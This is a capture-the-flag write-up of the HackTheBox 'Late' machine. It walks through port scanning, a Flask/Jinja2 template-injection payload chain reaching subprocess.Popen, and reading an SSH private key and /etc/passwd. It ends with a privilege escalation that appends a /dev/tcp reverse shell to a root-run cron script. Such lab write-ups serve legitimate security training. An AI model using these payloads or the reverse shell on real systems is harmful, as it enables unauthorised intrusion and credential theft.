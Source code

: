 ```yaml
---
title: HTB | Late
author: Zeropio
date: 2022-05-30
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/late
---
```


![HTB Img](/assets/img/hackthebox/card/Late.png)

# Enumeration
After the ping we can guess that is a Linux.
The ports scan give us:
```
# Nmap 7.92 scan initiated Sat May 28 20:31:36 2022 as: nmap -p- -sS --min-rate 5000 -oG ports 10.10.11.156
Host: 10.10.11.156 ()	Status: Up
Host: 10.10.11.156 ()	Ports: 22/open/tcp//ssh///, 80/open/tcp//http///	Ignored State: closed (65533)
```

Then we scan the ports:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-28 20:32 CEST
Nmap scan report for 10.10.11.156
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see a webpage. Searching **http://10.10.11.156/index.php** give us error 404, so the page doesn't use php.
We see a subdomain referer as: **images.late.htb**, so we add it to the `/etc/hosts`{: .filepath}.

&nbsp;
---

# Foothold

We see it works with **flask**. We can search for it and get some [possible explotation](https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee).
Let's try adding the text to an image like this:

![HTB Img](/assets/img/hackthebox/labs/late/ss158.png)

This gives the following text:

![HTB Img](/assets/img/hackthebox/labs/late/ss157.png)

Now that we know is vulnerable we need to search for the param **subprocess.Popen**.
- Do the following search with a new image: `{% raw %}{{ ‘’.__class__.__mro__[1].__subclasses__() }}{% endraw %}`.
- Parse it with the following script: [flaskVulnParam](https://github.com/zeropio/the_helpful_scripts/blob/main/other/flaskVulnParam.py)

```python
with open('results.txt', "r") as f:
        data = str(f.read())

data = data.replace("&lt;", '<')
data = data.replace("&gt;", '>')
data = data.replace("&#39;", "'")

data = data.split(", ")

print(data.index("<class 'subprocess.Popen'>"))
```

Now the have the index of the field: **249**. We can check it searching for: `{% raw %}{{‘’.__class__.__mro__[1].__subclasses__()[249]}}{% endraw %}`.
Now we try to get the **RSA**, cause we know it has OpenSSH:

![HTB Img](/assets/img/hackthebox/labs/late/ss159.png)


This will give us the RSA file. Now we need to get the `/etc/passwd`{: .filepath} as well. Let replace **\n** in both files with the proper spaces.
Now we can connect to the machine. First we need to find a user that has the shell enable and then give permission to the rsa file:
```console
> chmod 400 rsa
> ssh -i rsa svc_acc@10.10.11.15
```

&nbsp;
---

# Privilage Escalation

With `linPEAS.sh`{: .filepath} we found the an editable folder with the script `ssh-alert.sh`{: .filepath} **ssh-alert.sh**, which is executed by the root in crontab and when a 
user login with ssh.
Let's add an reverse shell there:
```
# In our machine
> nc -lvnp 9000

# In the target machine
> $ echo "sh -i >& /dev/tcp/10.10.14.185/9000 0>&1" >> ssh-alert.sh; ssh localhost
```

And the machine is pwned.
